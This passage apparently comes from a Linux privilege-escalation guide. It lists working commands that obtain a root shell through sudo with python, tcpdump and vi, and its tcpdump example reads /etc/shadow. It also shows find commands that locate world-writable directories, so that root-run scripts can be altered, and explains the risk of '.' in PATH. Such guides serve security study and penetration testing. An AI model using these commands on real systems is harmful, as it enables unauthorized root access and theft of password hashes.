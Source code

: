 ```
sudo python
import os
os.system("/bin/bash")
```

`sh`

`tcpdump`

```
echo $'id\ncat /etc/shadow' > /tmp/.test
chmod +x /tmp/.test
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

`vi/vim`

Can be abused like this:

```
sudo vi
:shell

:set shell=/bin/bash:shell    
:!bash
```

[How I got root with sudo/](https://www.securusglobal.com/community/2014/03/17/how-i-got-root-with-sudo/)

### World writable scripts invoked as root

If you find a script that is owned by root but is writable by anyone you can add your own malicious code in that script that will escalate your privileges when the script is run as root. It might be part of a cronjob, or otherwise automatized, or it might be run by hand by a sysadmin. You can also check scripts that are called by these scripts.

```bash
#World writable files directories
find / -writable -type d 2>/dev/null
find / -perm -222 -type d 2>/dev/null
find / -perm -o w -type d 2>/dev/null

# World executable folder
find / -perm -o x -type d 2>/dev/null

# World writable and executable folders
find / \( -perm -o w -perm -o x \) -type d 2>/dev/null
```

### Bad path configuration

Putting `.` in the path  
If you put a dot in your path you won't have to write `./binary` to be able to execute it. You will be able to execute any script or binary that is in the current directory.
